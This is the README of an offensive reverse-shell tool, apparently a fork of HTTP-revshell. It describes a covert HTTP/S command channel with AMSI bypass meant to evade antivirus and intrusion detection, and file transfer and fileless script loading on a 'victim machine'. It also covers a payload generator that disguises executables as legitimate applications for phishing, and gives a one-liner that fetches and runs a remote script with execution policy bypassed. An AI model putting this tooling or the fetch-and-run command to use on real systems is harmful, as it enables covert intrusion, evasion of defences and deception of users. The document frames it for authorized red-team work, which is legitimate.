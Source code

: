 # HTTPS-RevShell-PS3

[![Category-tool]]() [![Powershell]]() [![Python]]() [![License]]()

Revshell focused on red teams and pentesters with AMSI Bypass. This tool provides a reverse connection through the http/s protocol. It uses a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

# Features

    SSL
    Proxy Aware
    Upload files
    Download files
    Load powershell scripts through the server
    Error Control
    AMSI bypass
    Autocomplete PowerShell functions (optional)
    
    
# Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```


# Extra functions usage
## Upload

This function allow you to upload any file to the victim machine.

Usage:

`upload /src/path/file C:\dest\path\file`

## Download

This function allow you to download a file to the attacker machine.

Usage:

`download C:\src\path\file /dst/path/file`

## Loadps1

This function allows you to load from powershell scripts without having to write to the victim's disk, reading the file through legitimate HTTP traffic.

Usage:

`loadps1 /path/to/the/local/server/PowershellScript.ps1`


# Help Revshell-Generator.ps1 (Automatic Payload Generator)

This script allows you to create an executable file with the payload necessary to use HTTP-revshell, you just need to follow the instructions on the screen to generate it. There are 6 predefined templates and a customizable one, with the data that you like.

The payloads generated by the tool, incorporate the legitimate icon of the application, as well as the product and copyright information of the original application. In addition, each of them opens the original application before establishing the connection with the server, pretending to be a legitimate application. This can be used for phishing or Red Team exercises.

Payload Generator usage:

`powershell -ep bypass "iwr -useb https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/Revshell-Generator.ps1 | iex"`

# Credits

    JoelGMSec for his awesome Revshell-Generator.ps1. Twitter: @JoelGMSec
    

# Disclaimer & License

This script is licensed under LGPLv3+. Direct link to License.

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own servers and/or with the server owner's permission.

## Original Author
This work is mosty entirely @3v4Si0N very well done job. I have made some customizations to make the code work in a few other scenarios than what was intened.
ALL CREDITS OF THIS PROJECT GOES TO 3v4Si0N and his amazing work. You should fork his project rather than this: https://github.com/3v4Si0N/HTTP-revshell/

